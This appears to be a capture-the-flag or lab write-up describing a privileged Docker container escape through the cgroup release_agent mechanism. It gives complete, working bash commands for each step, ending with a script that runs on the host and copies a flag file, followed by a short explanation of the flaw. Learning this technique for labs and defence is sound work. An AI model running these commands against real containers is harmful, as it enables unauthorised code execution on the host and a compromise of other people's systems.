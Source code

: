 #### **Exploit Steps:**

1. **Mount a cgroup**:
   - Create a temporary directory `/tmp/cgrp` and mount a control group (cgroup) into it:
     ```bash
     mkdir /tmp/cgrp && mount -t cgroup -o rdma cgroup /tmp/cgrp && mkdir /tmp/cgrp/x
     ```

2. **Enable Execution on Release**:
   - Configure the cgroup to execute commands when released:
     ```bash
     echo 1 > /tmp/cgrp/x/notify_on_release
     ```

3. **Locate the Host Path**:
   - Identify the host's filesystem path associated with the container:
     ```bash
     host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
     ```

4. **Set Release Agent**:
   - Define the command to execute upon cgroup release:
     ```bash
     echo "$host_path/exploit" > /tmp/cgrp/release_agent
     ```

5. **Craft the Exploit Script**:
   - Create a shell script to be executed:
     ```bash
     echo '#!/bin/sh' > /exploit
     echo "cat /home/cmnatic/flag.txt > $host_path/flag.txt" >> /exploit
     chmod a+x /exploit
     ```

6. **Trigger Execution**:
   - Add a process to the cgroup, triggering the exploit:
     ```bash
     sh -c "echo $$ > /tmp/cgrp/x/cgroup.procs"
     ```

---

### **Vulnerability Explanation**

1. **cgroup Mounting**:
   - cgroups allow resource and process management. Privileged containers can mount and manipulate cgroups to perform host-level actions.

2. **Notify on Release**:
   - Setting `notify_on_release` triggers kernel actions upon releasing a cgroup.

3. **Leveraging Host Path**:
   - By identifying the container's host path, the exploit enables access to host files.

4. **Release Agent Execution**:
   - The `release_agent` file specifies the script to execute, effectively injecting malicious code into the host.

---